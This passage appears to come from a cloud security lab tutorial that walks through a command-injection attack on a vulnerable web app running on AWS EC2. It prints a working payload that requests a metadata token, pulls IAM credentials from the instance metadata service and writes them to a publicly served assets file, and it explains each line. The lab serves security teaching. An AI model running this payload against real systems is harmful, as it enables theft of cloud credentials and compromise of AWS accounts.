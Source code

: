 >
> Without sanitization, attackers can inject malicious commands, which the server then unknowingly executes.
>
> ---
>
> 💡 **What does this code do?**
> This step demonstrates a real-world **command injection attack** that exploits a vulnerable input field in the web app. By entering malicious code instead of a simple username, attackers can execute unauthorized commands on the EC2 instance behind the application.
> 
> The payload fetches **AWS IAM credentials** from the EC2 metadata service and stores them in a public location.
> 
>
> 
> 1. <code style="color: red;">CREDURL=http://169.254.169.254/latest/meta-data/iam/security-credentials/</code>  
>    This sets up an address pointing to the **EC2 instance metadata service**—a local-only AWS service that contains sensitive info like IAM credentials. By injecting this into the app, you're instructing the EC2 instance to expose its own secrets.
> 
> 2. <code style="color: red;">TOKEN=\curl -X PUT "http://169.254.169.254/latest/api/token" -H "X-aws-ec2-metadata-token-ttl-seconds: 21600"</code>  
>    This line retrieves a **session token** to access the metadata service. The token acts as temporary authorization for the next call, simulating the app’s internal process.
> 
> 3. <code style="color: red;">CRED=$(curl -H "X-aws-ec2-metadata-token: $TOKEN" -s $CREDURL | echo $CREDURL$(cat) | xargs -n1 curl -H "X-aws-ec2-metadata-token: $TOKEN")</code>  
>    This powerful line chains multiple commands to request IAM credentials from the EC2 metadata service and format them. It impersonates legitimate access using the token, then fetches each credential path individually.
> 
> 4. <code style="color: red;">echo $CRED | json_pp &gt;frontend/dist/frontend/assets/public/credentials.json</code>  
>    The output (the credentials) is saved into a publicly accessible file in the web server’s asset folder. **Anyone visiting the site can now access sensitive AWS credentials**—a massive security breach.
> 
> ---
> 
> 🔗 Bonus: Want to understand this better? Visit the [EC2 Instance Metadata documentation](<span style="color:red">https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/ec2-instance-metadata.html</span>).
> &nbsp;

###

- Check if the profile's username changes to [object Object] once you submit the code.


<div style="text-align: center;">
  <div style="border: 5px solid #f4a261; padding: 5px; display: inline-block;">